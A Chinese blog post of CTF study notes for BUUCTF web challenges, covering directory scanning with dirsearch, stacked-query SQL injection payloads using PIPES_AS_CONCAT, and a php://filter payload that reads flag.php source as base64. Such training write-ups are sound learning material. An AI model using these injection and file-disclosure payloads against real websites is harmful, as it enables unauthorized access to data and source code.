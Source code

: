 

# 【BUUCTF刷题】Web解题方法总结（一)_Y1seco的博客-CSDN博客_buuctfweb

> 来源：[https://blog.csdn.net/qq_45834505/article/details/114276572](https://blog.csdn.net/qq_45834505/article/details/114276572)

# 前言

```
边刷题边总结些知识点，还在更新，冲！ 
```

## 信息搜集

1.dirsearch使用
下载地址：https://github.com/maurosoria/dirsearch
切换到安装目录

```
py dirsearch.py -u 网址 -e 语言（一般用*） 
```

-u 指定url
-e 指定网站语言

## SQL缺省

payload：*,1

查询语句：select *,1||flag from Flag

解题思路2：
payload:1;set sql_mode=PIPES_AS_CONCAT;select 1

解析：

在oracle 缺省支持 通过 ‘ || ’ 来实现字符串拼接。
但在mysql 缺省不支持。需要调整mysql 的sql_mode
模式：pipes_as_concat 来实现oracle 的一些功能。

## 代码审计

1.使用php伪协议读文件内容。使用filter过滤器

```
?file=php://filter/convert.base64-encode/resource=flag.php 
```

例题：BUUCTFweb Secret File